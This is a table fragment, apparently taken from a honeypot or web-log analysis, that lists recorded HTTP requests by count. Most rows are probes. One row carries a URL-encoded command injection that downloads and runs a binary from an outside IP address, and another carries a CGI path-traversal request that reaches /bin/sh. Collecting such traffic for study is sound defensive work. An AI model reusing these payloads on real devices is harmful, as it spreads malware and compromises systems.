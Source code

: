 |  25 |                    28 | GET /actuator/gateway/routes HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        |
|  26 |                    28 | \xFF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xF1\x03%\x00\x00\x00{ \x22Ret\x22 : 100, \x22SessionID\x22 : \x220x0\x22 }                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  27 |                    23 | GET /admin/assets/js/views/login.js HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
|  28 |                    21 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F185.225.17.58%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
|  29 |                    21 | GET /hello HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          |
|  30 |                    21 | POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |